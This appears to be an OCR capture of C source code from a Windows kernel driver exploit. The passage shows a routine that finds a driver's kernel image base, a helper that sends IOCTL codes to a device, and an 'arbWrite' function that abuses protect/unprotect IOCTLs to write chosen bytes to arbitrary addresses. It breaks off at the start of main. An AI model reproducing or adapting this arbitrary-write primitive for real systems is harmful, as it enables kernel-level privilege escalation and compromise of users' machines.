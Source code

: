 ```C
	for (i = 0; i < ModuleInfo->NumberOfModules; i++) {
		//printf("Image Name  = %s\n", (char *)ModuleInfo->Modules[i].FullPathName + ModuleInfo->Modules[i].OffsetToFileName);
		if (strcmp((const char*)ModuleInfo->Modules[i].FullPathName + ModuleInfo->Modules[i].OffsetToFileName, drvName) == 0) {
			drvBase = (ULONG64)ModuleInfo->Modules[i].ImageBase;
			printf("\n%s : Image Base = %p\n", drvName, (PVOID64)drvBase);

		}
	}
	VirtualFree(ModuleInfo, 0, MEM_RELEASE);

	return drvBase;
}

int action(int IOCTL_CODE, char* data, int len) {
	DWORD returned;
	BOOL success;
	success = DeviceIoControl(hDevice,
		IOCTL_CODE,
		NULL, NULL,
		nullptr, 0,
		&returned, nullptr
	);
	if (!success) {
		printf("failed");
		return -1;
	}

	success = DeviceIoControl(hDevice,
		IOCTL_ACT,
		data, len,
		nullptr, 0,
		&returned, nullptr
	);
	if (!success) {
		printf("failed");
		return -1;
	}

	return 1;
}

int arbWrite(char* where, char* what, int len) {
	int i = 0;
	DWORD n = 0;
	HANDLE hHeap = GetProcessHeap();
	char* addr = (char*)HeapAlloc(hHeap, HEAP_ZERO_MEMORY, len + 0x10);
	memcpy(addr, what, len);
	for (i = 0; i < len;) {
		n = strlen(addr);
		if (n == 0)
			n++;
		action(IOCTL_PROTECT, addr + i, n);
		action(IOCTL_UNPROTECT, where + i, 0xffffffff);
		i = i + n;
	}
	HeapFree(hHeap, 0, addr);
	return 1;
}


int main() {
```